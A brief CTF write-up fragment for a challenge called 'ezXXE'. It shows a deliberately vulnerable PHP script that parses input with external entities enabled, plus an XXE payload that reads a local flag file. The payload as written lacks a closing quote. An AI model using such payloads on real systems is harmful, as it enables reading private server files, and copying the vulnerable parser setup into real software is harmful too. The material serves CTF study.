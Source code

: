 <a name="JQGiX"></a>
## web/ezXXE
题目：
```php
<?php
// flag is in '/flags/flag1.txt' and '/flags/flag2.php'

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');

if (strpos($xmlfile,"flag1.txt") !== FALSE){
    if (strpos($xmlfile,'file:/') === FALSE){
        die("Please use file protocol.<br/><br/>");
    }
}
if (strpos($xmlfile,"flag2.php") !== FALSE){
    if (strpos($xmlfile,'file:/') !== FALSE){
        echo "Why not try php://filter?";
        echo '<br/><br/>';
    }
}

$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
$test = simplexml_import_dom($dom);
echo $test;
highlight_file(__FILE__);
?>
```
[https://xz.aliyun.com/t/3357](https://xz.aliyun.com/t/3357)<br />payload:
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE test [  
<!ENTITY pay SYSTEM "file:///flags/flag1.txt> ]> 
<test>&pay;</test>
```
